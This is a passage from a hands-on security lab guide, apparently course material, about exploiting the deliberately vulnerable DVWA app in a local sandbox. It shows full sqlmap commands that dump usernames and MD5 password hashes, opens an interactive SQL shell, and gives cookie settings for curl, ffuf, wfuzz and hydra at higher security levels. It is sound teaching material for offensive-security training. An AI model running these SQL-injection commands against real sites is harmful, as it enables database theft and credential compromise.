 * Use `--sql-query` to execute SQL statement.
 ```shell-session
root@attacker:~# sqlmap --batch -v0 -u 'http://10.0.0.10:80/vulnerabilities/sqli/?id=1&Submit=Submit' --sql-query "SELECT user, password FROM users"
...
SELECT user, password FROM users [5]:
[*] admin, 5f4dcc3b5aa765d61d8327deb882cf99
[*] gordonb, e99a18c428cb38d5f260853678922e03
[*] 1337, 8d3533d75ae2c3966d7e0d4fcc69216b
[*] pablo, 0d107d09f5bbe40cade3de5c71e9e9b7
[*] smithy, 5f4dcc3b5aa765d61d8327deb882cf99

root@attacker:~# sqlmap --batch -v0 -u 'http://10.0.0.10:80/vulnerabilities/sqli/?id=1&Submit=Submit' --sql-query "DATABASE()"
...
DATABASE(): 'dvwa'
 ```

 * Use `--sql-shell` to directly interact with the database.
 ```shell-session
 root@attacker:~# sqlmap --batch -v0 -u 'http://10.0.0.10:80/vulnerabilities/sqli/?id=1&Submit=Submit' --sql-shell
 ...
 sql-shell> SELECT * FROM users
SELECT * FROM users [5]:
[*] admin, /hackable/users/admin.jpg, 0, admin, 2024-11-25 18:15:20, admin, 5f4dcc3b5aa765d61d8327deb882cf99, 1
[*] gordonb, /hackable/users/gordonb.jpg, 0, Gordon, 2024-11-25 18:15:20, Brown, e99a18c428cb38d5f260853678922e03, 2
[*] 1337, /hackable/users/1337.jpg, 0, Hack, 2024-11-25 18:15:20, Me, 8d3533d75ae2c3966d7e0d4fcc69216b, 3
[*] pablo, /hackable/users/pablo.jpg, 0, Pablo, 2024-11-25 18:15:20, Picasso, 0d107d09f5bbe40cade3de5c71e9e9b7, 4
[*] smithy, /hackable/users/smithy.jpg, 0, Bob, 2024-11-25 18:15:20, Smith, 5f4dcc3b5aa765d61d8327deb882cf99, 5

sql-shell> SELECT USER()
SELECT USER(): 'dvwa@10.0.0.10'
sql-shell>
 ```

</details>

## Switching to higher levels of DVWA security

So far, you have attacked DVWA set to the **low** security level. If you finish the previous tasks, increase the DVWA security level to **medium** and solve them again.

1. Connect to `attacker` via RDP.
1. Open Firefox at `attacker`.
1. Go to http://10.0.0.10/security.php, select **Medium** and click **Submit**. You should get "Security level set to medium".

To solve the tasks, use the Firefox browser with the DVWA security level set to **medium**. To solve the tasks using command-line tools, you must properly set the security cookie  (`security=medium`) in each tool individually.

<details>
<summary>Setting cookies in curl.</summary>

 * `-H 'Cookie: security=medium'`
</details>

<details>
<summary>Setting cookies in wfuzz and ffuf.</summary>

 * `-b security=medium`
</details>

<details>
<summary>Setting cookies in hydra.</summary>

 * `:H=Cookie: security=medium:`
</details>

<details>
<summary>Setting cookies, flushing session files, and refreshing queries in sqlmap.</summary>

 * `--cookie="security=medium"`
 * `--fresh-queries --flush-session` 
</details>

## End of the Lab

If you finish all tasks, stop the sandbox using `podman-compose down`.

